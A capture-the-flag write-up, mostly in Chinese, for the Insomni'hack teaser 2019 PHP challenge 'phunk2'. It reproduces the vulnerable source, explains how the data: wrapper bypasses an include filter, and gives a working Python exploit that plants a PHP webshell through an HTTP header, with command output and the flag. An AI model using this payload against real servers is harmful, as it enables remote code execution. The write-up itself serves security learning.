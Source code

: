 ```yaml
---
uuid: 582cd6cc-d14f-44ad-96c8-36ce8ebf3842
title: Insomni'hack teaser 2019 - phunk2
tags:
  - writeup 
  - web
  - php
categories:
  - Capture The Flag
  - Insomni'hack teaser 2019
series: Insomni'hack teaser 2019
date: 2019-01-31 00:00:00
updated: 2019-01-31 00:00:00
---
```


利用 wrapper 對字串解析的不同來成功 getshell

<!--more-->

# [正文]
題目一開始就給出 source code 和 [phpinfo.php](http://phuck.teaser.insomnihack.ch/phpinfo.php)!


{% codeblock source code lang:php http://phuck.teaser.insomnihack.ch/?hl http://phuck.teaser.insomnihack.ch/?hl line_number:true %}
stream_wrapper_unregister('php');
if(isset($_GET['hl'])) highlight_file(__FILE__);

$mkdir = function($dir) {
    system('mkdir -- '.escapeshellarg($dir));
};
$randFolder = bin2hex(random_bytes(16));
$mkdir('users/'.$randFolder);
chdir('users/'.$randFolder);

$userFolder = (isset($_SERVER['HTTP_X_FORWARDED_FOR']) ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR']);
$userFolder = basename(str_replace(['.','-'],['',''],$userFolder));

$mkdir($userFolder);
chdir($userFolder);
file_put_contents('profile',print_r($_SERVER,true));
chdir('..');
$_GET['page']=str_replace('.','',$_GET['page']);
if(!stripos(file_get_contents($_GET['page']),'<?') && !stripos(file_get_contents($_GET['page']),'php')) {
    include($_GET['page']);
}

chdir(__DIR__);
system('rm -rf users/'.$randFolder);
{% endcodeblock %}

## Analysis
1. 先觀察 `phpinfo` 重要的兩項，`allow_url_include` 和 `allow_url_fopen`
    {% codeblock lang:plain line_number:false %}
    Directive           Local Value	    Master Value
    allow_url_fopen	    On	            On
    allow_url_include   Off	            Off`
    {% endcodeblock %}

2. 再來觀察 source code，首先可以發現 Wrapper `php://` 被關閉。
    {% codeblock lang:php line_number:true first_line:1 %}
    stream_wrapper_unregister('php');
    {% endcodeblock %}

3. `$mkdir` 的 `system` 有加入 `escapeshellarg($dir)` 基本上是死路。
    {% codeblock lang:php line_number:true first_line:4 mark:5 %}
    $mkdir = function($dir) {
        system('mkdir -- '.escapeshellarg($dir));
    };
    {% endcodeblock %}

4. 看起來可以透過 `$_SERVER['HTTP_X_FORWARDED_FOR']` 控制 `$userFolder`。再來會把 `$_SERVER` array 的內容都 dump 進 `$userFolder/profile` 裡面。
    {% codeblock lang:php line_number:true first_line:11 mark:4 %}
    $userFolder = (isset($_SERVER['HTTP_X_FORWARDED_FOR']) ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR']);
    $userFolder = basename(str_replace(['.','-'],['',''],$userFolder));

    $mkdir($userFolder);
    chdir($userFolder);
    file_put_contents('profile',print_r($_SERVER,true));
    {% endcodeblock %}

5. 看起來可以控制 `$_GET['page']`，不過 `allow_url_include` 被關閉了不能輕鬆地 LFI
    {% codeblock lang:php line_number:true first_line:18 mark:4 %}
    $_GET['page']=str_replace('.','',$_GET['page']);
    if(!stripos(file_get_contents($_GET['page']),'<?') && !stripos(file_get_contents($_GET['page']),'php')) {
        include($_GET['page']);
    }
    {% endcodeblock %}

6. 全部跑完後會把產生的所有東西都刪除。
    {% codeblock lang:php line_number:true first_line:23 mark:4 %}
    chdir(__DIR__);
    system('rm -rf users/'.$randFolder);
    {% endcodeblock %}

## Get shell

`allow_url_fopen on, allow_url_include off`， data warper 會有以下性質
{% codeblock lang:php line_number:false %}
file_get_contents( 'data:,QAQ/profile' );
-> allow_url_fopen   on  => get 'QAQ/profile' file contents

include( 'data:,QAQ/profile' );
-> allow_url_include off => get 'data:,QAQ/profile' file contents
{% endcodeblock %}

透過前面的觀察，可以創建一個 `data:,aaaa/profile`，然後 `file_get_contents()` 會去嘗試得到 `aaaa/profile` 這個不存在的檔案的內容，成功 bypass，且 `include()` 會成功 include `data:,aaaa/profile`。至於檔案的內容 `print_r($_SERVER,true)`，可以透過傳送 http header 來送進去。

## payload

{% codeblock lang:python line_number:true %}
#!/usr/bin/env python3

import requests, sys

headers = {
    "X-Forwarded-For": "data:,QAQ",
    "Webshell": "<?php system('"+ sys.argv[1] +"'); ?>"
}

url = "http://phuck.teaser.insomnihack.ch"
payload = { "page": "data:,QAQ/profile" }
r = requests.get( url, headers=headers, params=payload )
print(r.text)
{% endcodeblock %}

{% codeblock lang:shell line_number:false %}
$ python payload.py 'ls /'
...
    [HTTP_WEBSHELL] => bin
boot
dev
etc
flag
get_flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
...
$ python payload.py '/get_flag'
...
    [HTTP_WEBSHELL] => INS{PhP_UrL_Phuck3rY_h3h3!}
...
{% endcodeblock %}

FLAG: `INS{PhP_UrL_Phuck3rY_h3h3!}`
